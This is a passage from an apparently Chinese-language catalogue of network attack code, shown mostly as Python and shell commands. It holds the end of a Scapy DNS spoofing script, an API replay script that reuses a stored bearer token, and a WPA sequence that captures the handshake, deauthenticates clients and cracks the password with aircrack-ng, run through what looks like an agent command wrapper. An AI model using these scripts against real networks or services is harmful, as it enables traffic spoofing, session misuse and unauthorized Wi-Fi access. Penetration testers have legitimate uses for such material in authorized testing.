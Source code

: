 ```python

    # Sniff for DNS queries
    print("Starting DNS spoofing attack...")
    sniff(filter="udp port 53", prn=dns_spoof)

dns_spoofing()
```

### 5. API请求重放攻击

```python
import requests
import json
from time import sleep

def api_request_replay():
    # Extract an API request from a file
    with open('api_request.txt', 'r') as f:
        request_data = json.loads(f.read())

    headers = {
        'Authorization': 'Bearer ' + request_data['token'],
        'Content-Type': 'application/json'
    }

    # Replay the request multiple times to test rate limiting
    for i in range(10):
        response = requests.post(
            'https://api.example.com/data', 
            headers=headers,
            json=request_data['payload']
        )

        print(f"Request {i+1}: Status {response.status_code}")
        if response.status_code != 200:
            print(f"Response: {response.text}")
            break

        sleep(0.5)  # Small delay between requests

api_request_replay()
```

### 6. WPA握手捕获和重放

```python
generic_linux_command("airmon-ng", "start wlan0")
generic_linux_command("airodump-ng", "wlan0mon -c 1 --bssid AA:BB:CC:DD:EE:FF -w capture")
generic_linux_command("aireplay-ng", "--deauth 5 -a AA:BB:CC:DD:EE:FF wlan0mon")
generic_linux_command("aircrack-ng", "capture-01.cap -w wordlist.txt")
```
